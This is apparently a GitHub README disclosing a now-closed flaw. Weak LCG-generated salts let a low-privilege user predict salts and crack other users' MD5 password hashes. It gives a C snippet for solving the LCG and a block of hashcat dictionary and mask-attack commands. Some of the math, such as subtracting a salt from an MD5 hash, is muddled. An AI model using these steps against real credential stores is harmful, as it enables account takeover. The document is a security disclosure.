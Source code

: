 # Salt-Hash Approximation Recovery-attack with Known plaintext using data containers (Hashcat)
> :warning: **Disclaimer**: PLEASE BE AWARE THAT THE VULNERABILITY HAS BEEN IDENTIFIED AND SUCCESSFULLY CLOSED.
NO KNOWN ATTACKS HAVE BEEN EXECUTED USING THIS VULNERABILITY AND NO DATA WAS OBTAINABLE BY THIRD PARTIES.
THE INFORMATION PRESENTED IS FOR EDUCATIONAL PURPOSES ONLY AND DOES NOT REPRESENT AN ONGOING RISK.

This is a demonstrative recovery attack with which any low privilege user of the system
can potentially steal user credentials and perform actions using a different identity,
this works by exploiting the password reset feature shortly after a finished update cycle
in combination with data containers for the attacker to map possible prng sequences to salts for hash predictions.

## Summary
  1. Remove nearby hash salts by iteration of lcg parameters with known points in sequence
  2. Fire and forget guessed unsalted hashes based on lcg sequence via cloud compute services
  3. Copyright

### CWE-338 Use of Cryptographically Weak Pseudo-Random Number Generator (PRNG)
Uses a Pseudo-Random Number Generator (PRNG) in a security context, but the PRNG's algorithm is not cryptographically strong.
![](https://chart.apis.google.com/chart?cht=tx&chl=f(x_{n+1})=(ax_n+c)\gg%20d%20\pmod%20m%20\Rightarrow%20f^{-1}(y_n)=a^{-1}(y_n-c)\gg%20d%20\pmod%20m)
![](https://chart.apis.google.com/chart?cht=tx&chl=y_n:=\left%20\lfloor%20x_n/2^{31}%20\pmod%20m%20\right%20\rfloor)

```c
//for d=1
rlcg<a, c, m, /*second modulo*/0> rlcg({p1, p2});
if(!rlcg.solution().empty())
  std::cout << rlcg.solution() << std::endl;
```

### CWE-760 Use of a One-Way Hash with a Predictable Salt
One-way cryptographic hash against an input that should not be reversible, such as a password, but uses a predictable salt as part of the input.
![](https://chart.apis.google.com/chart?cht=tx&chl=h:=md5(\$pass)%20+%20\$salt.prng%20\Rightarrow%20md5%20=%20h-\$salt.prng)

```
hashcat.exe -m 0 ./md5_salt_guess.hash -a 0 -d 1 ./rockyou-extended.dict & hashcat.exe -m 0 ./md5_salt_guess.hash -a 6 -d 1 -1 "!$??" ./rockyou-extended.dict ?1 &^
hashcat.exe -m 0 ./md5_salt_guess.hash -a 6 -d 1 -1 "@#%&*" ./rockyou-extended.dict ?1 & hashcat.exe -m 0 ./md5_salt_guess.hash -a 6 -d 1 -1 "12347890" -2 "!$??" ./rockyou-extended.dict ?1?2 &^
hashcat.exe -m 0 ./md5_salt_guess.hash -a 6 -d 1 -1 "12347890" ./rockyou-extended.dict ?1 & more hashcat.potfile
```

### Copyright and license
Code and documentation copyright 2021 Alexander Töpfer. Code released under the MIT License
